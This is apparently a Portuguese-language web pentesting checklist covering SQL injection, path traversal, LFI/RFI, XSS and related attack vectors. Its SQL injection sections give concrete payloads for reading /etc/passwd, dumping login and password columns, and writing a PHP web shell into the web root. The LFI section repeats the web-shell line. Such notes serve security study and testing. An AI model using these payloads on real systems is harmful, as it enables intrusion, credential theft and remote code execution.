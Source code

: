 # Checklist
Directories
Files
Accepted Methods
Source Code

# Vetores de Ataque
Campos de busca
Campos de Login/Autenticação
Campos de Registro/Cadastro
Redirecionamentos
Parâmetros GET e POST
Download/Upload
Posts

# Vulnerabilidades
## Directory and files Bruteforce
Com o dirbuster é possível encontrar diretórios e arquivos escondidos no host através de bruteforce

## Method Bypass
É possível ver o conteúdo de uma página que é necessário acesso administrativo utilizando outro método para acessar. Exemplo: Fazer uma requisição POST via curl para a página específicada

## Source Code Analysis
É possível encontrar informações confidenciais através do código fonte da página e das suas subpáginas

## Open Redirect
Em casos que o redirecionamento é feito pelo parâmetro GET e seja passível de mudar a URL, o hacker pode alterar o link para um site malicioso ou para o que ele desejar. Algumas vezes, o parâmetro de redirecionamento está codificado em base64, MD5, etc. , mas isso também é possível burlar descobrindo a codificação e colocando no parâmetro o link codificado

## SQL Injection
Para testar se existe um SQL Injection, um método é colocar o contrabarra ou uma aspa simples em campos de input

### Error Based
O Error Based, como o próprio nome diz, é baseado nos erro que retorna ao tentar fazer uma consulta no banco de dados em algum campo. Com ele, é possível injetar códigos SQL para descobrir informações sobre a tabela e o banco de dados.

Exemplo: ' union select 1,2,3... %23'

Exemplo: ' order by 1 or 2 or 3...'

Exemplo: union select 1, column_name, load_file(”/etc/passwd”), 4, from information_schema.columns where table_schema=”database” and table_name=”users” %23

### Blind
Quando não se há indicações se existe um SQL Injection, pode se usar alguns testes  para verificar a lógica AND e OR do programa.

Exemplo: ' or 1=1 union select 1,2#

#### Blind Post
Para descobrir informações confidenciais do servidor através da lógica, é possível utilizar-se da função ascii para descobrir o nome da base de dados em que a aplicações está, por isso é muito comum usar o Burp Suite no modo Repeater para fazer as requisições.

Exemplo: ' or length(database()) = 7 #

Exemplo: ' or ascii(substring(database(),1,1)) == number ascii for letter # 

Exemplo: ' or database() = char(115,116,114,105,110,103) # 

#### SQLi to RCE
Com a injeção de comandos SQL, é possível escrever dados no servidor com o comando INTO OUTFILE e o caminho do diretório que você deseja salvar.

Exemplo: ‘ union all select 1,2,3,4, “string” INTO OUTFILE “/var/www/html/website/file.txt” %23

Exemplo: ‘ union all select 1,2,3,4, “<?php system($_GET[’parameter’]); ?>” INTO OUTFILE “/var/www/html/website/banners/file.php” %23

### Information Schema
Através do information Schema, é possível obter a tabela com usuários e senhas do sistema e obter as informações contidas nela.

Exemplo: ' union select 1,2, group_concat(table_name),4,5 from information_schema.tables where table_schema = "string" %23

Exemplo: ' union select 1,2,concat(login,':',senha),4,5 from table %23

### Bypass addslashes
Em alguns casos, por causa do jeito em que foi programado a consultado no banco de dados, vai adicionar algumas contrabarras na consulta, impossibilitando de fazer consultas com aspas simples, gerando um erro. Porém, umas das formas de burlar esse mecanismos, é passar os valores da string em decimal separados por vírgulas com a função char().

Exemplo: echo -n “string” | od -An -tdC

Exemplo:-1 union select 1,table_name,3,4,5 from information_schema.tables where table_schema=char(115,116,114,105,110,103)

Site: [https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html)


## Full Path Disclosure | Path Traversal | Directory Traversal
O Path Traversal ou Directory Traversal é uma vulnerabilidade que ocorre quando é se é possível navegar entre os diretórios através de um parâmetro GET pela URL utilizando o "../" para listar todos os diretórios anteriores. Através dessa vulnerabilidade é possível encontrar arquivos sensíveis que se colocados na URL pode-se ver o conteúdo deles e encontrar informações confidenciais
## Local File Inclusion (LFI)
O Local File Inclusion ocorre quando o usuário consegue incluir e executar arquivos locais no servidor, manipulando os parâmetros da solicitação para incluir arquivos maliciosos no código da aplicação. Em códigos que adicionam uma extensão de arquivo ao final da solicitação, é possível burlar utilizando a adição de um nullbyte (%00) ao final da solicitação.

### Remote Code Execution através de LFI
É possível a injeção de código remoto através dos arquivo logs do servidor caso o servidor interprete o código passado para o log.  No exemplo a seguir, o código chama a função system e pelo parâmetro GET, executa o código passado por parâmetro remotamente no servidor.
Exemplo de código PHP: <?php system($_GET['parammeter']); ?>
## Remote File Inclusion (RFI)
O Remote File Inclusion ocorre quando o servidor executa códigos remotamente de outro servidor, assim, é possível subir um servidor e enviar um código malicioso para o servidor, para executar códigos remotamente através de um parâmetro, assim como no RCE através de LFI
## HTML Injection
O HTML Injection ocorre quando se é possível injetar códigos HTML na página

## Cross Site Scripting (XSS)
### Refletido
Utilizando o mesmo conceito do HTML Injection, é possível também injetar códigos javascript no servidor para executar códigos no servidor. O XSS Refletido se dá por que o atacante cria uma URL maliciosa e precisa enviar para uma vítima, não é feito nenhuma gravação no banco de dados da página

### Stored 
Quando o XSS é armazenado em algum lugar, por exemplo os comentários de feedback,  e com isso, é possível roubar os cookies de outros usuários enviando eles para o próprio servidor 

### XSStrike
O XSStrike é uma ferramenta para automatizar os testes de XSS em um host
Para utilizar ele basta utilizar o comando `python3 xsstrike.py -u "host?parameter="` ou `python3 xsstrike.py -u "host" --params` para XSS Refletido e o comando `python3 xsstrike.py -u "host/" --path` para Self XSS
Link para o download da ferramenta: https://github.com/s0md3v/XSStrike

## URL Encode
URL encoding converts characters into a format that can be transmitted over the Internet.

URLs can only be sent over the Internet using the [ASCII character-set](https://www.w3schools.com/charsets/ref_html_ascii.asp).

Since URLs often contain characters outside the ASCII set, the URL has to be converted into a valid ASCII format.

URL encoding replaces unsafe ASCII characters with a "%" followed by two hexadecimal digits.  

URLs cannot contain spaces. URL encoding normally replaces a space with a plus (+) sign or with %20.

Site for more informations about: https://www.w3schools.com/tags/ref_urlencode.ASP